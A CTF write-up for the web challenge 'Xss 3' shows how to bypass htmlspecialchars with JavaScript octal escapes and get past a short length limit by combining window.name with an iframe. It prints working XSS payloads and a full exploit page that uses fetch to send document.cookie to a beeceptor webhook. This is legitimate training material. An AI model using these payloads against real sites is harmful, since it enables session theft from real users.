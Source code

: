 ### Hello everyone, this is my writeup for my web challenge " Xss 3 " that had no solves in CAT CTF 23 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/639ccff8-e4fb-40c3-a5ce-dbeec301f48b)

### When we open the link you will find "Enter your name " and after you send it as /?name=ghazy you will get this : 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/408207b2-30aa-4499-98bc-01a9caaa4e6a)

### Since we can clearly see our input reflected in the page so, let's try a basic payload like 
`<img src=x onerror=alert() >`  

### And we will got our input as it 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/eafb90e6-0f92-48fe-89fd-4866c4cd2130)

### Seems filtered right ? so, let's open the html source to see what happened to our payload in the reflection 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a4d89393-7de3-4945-ad7e-1aa048ebd063)

### If u tried to drop some error by sending `name` parameter as an array you will get this error 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a68e2425-a3e9-4efb-b1f3-ac8ea2e142b3)

### So, it's become clear now why our payload is filtered !! because our input is being passed to htmlspecialchars php function

> This function filters the html special chars like : [< , > , ' , " , &] in it's default configuration.

### So, this function is safe from bypassing ! 

### But after some hours since no one solved it, i released a hint .

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/2eee0214-63aa-4c78-8f20-b6f9ba3c1000)

### As we see in the response our input is being reflected on a js variable ! 
### So, let's see how we can use it to bypass htmlspecialchars

### If you opened your browser console and tried this :

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/9b448b0f-fb3a-44ff-8d8e-148c64919373)

### As you can see we can write a string by hex escaping using js like any programming / scripting languages ! 

### And since our input will be reflected at the js variable and the js code will print it in the page So, it should work !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/3dc68b74-15b7-49e3-aad6-2c40bd59d4dd)


### let's try to test it in our challenge

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/238c6305-6ee2-482f-885b-5cfb713a7ffa)

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7f5c5742-f510-48cb-9f21-8d37717a4527)

### As you can see both of them are filtered !! 

### Seems like the developer read about them in documents and filtered them and that what makes it a real life case : ) 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/82c823ca-7982-4ab5-9b34-12fd489b1db8)


### Then what about using an old escaping that has been deprecated from the js docs : D 

### Yup it's called Octal escpaing. 

> We can escape octals in strings by just using `\`

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7c9457b5-1dca-4565-a02f-77a52b34b135)


### TBH, i got it while i was debugging my challenge i wasn't know it before : D

### I wrote a simple for loop to print all chars to figure our what's this escaping and after that i knew it's octal : ) 

### So, let's try to escape our html special chars like : [<,>]

> Our Payload : \74img src=x onerror=alert()\76

### And bingoooo, we got our xss !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/dd303692-266a-43a4-99d7-afa0e85adb48)


### But the problem is we had only 38 chars as a length limit ! So, we can't write a pyload like this to steal the admin cookies:

```javascript

<Script>fetch('http://webhook/?c='+document.cookie)</script>
```

### It's more than 38 chars for sure ! 

### There are many ways to bypass the length limit like : window.open or 13.rs domain : D

### We will use window.open

> In js we can open a new window and control some variables like it's name !

### What about trying to eval our window.name that we will control !

### Like this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/5b87e6fb-ef68-49e0-8859-f177af611269)


### Since our payload length passed 40 chars so it will not work also : ( 

### So, we need to do it in a smart way : D , like eval without using eval 

### If anyone searched about tiny xss payloads he will see this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d78bcb57-4e3d-4621-bff0-43fef076a3b4)

`<iframe/onload=src=top.name>` 

> This payload will refer the iframe src to be the top window name : ) and since we can get xss using iframe src from this payload

```javascript

<iframe src=javascript:alert()>
```

### So, let's exploit this in our side to get alert : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/fefb4571-539f-4c1b-9d67-fb0158bba780)

### After bypassing the limit we can use this code to get the admin cookies !

```
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <Script>window.open('http://127.0.0.1/xss3/?name=\\74iframe/onload=src=top.name\\76','javascript:fetch(\'https://dummmmmmmyyyyy.free.beeceptor.com/?c=\'+document.cookie)')</Script>
<p id="a"></p>
<script>a.innerHTML="b";</script>
</body>
</html>

```

### Just host it in any web hook like beeceptor and send it to the bot like this
![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/67634f37-645f-49e5-8080-67b8efa61caa)

### And we got the flag : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d5333978-0e2a-4a2d-bb3b-08c7ab0cb507)


# Thanks for Reading and hope u enjoyed and learned from  it !
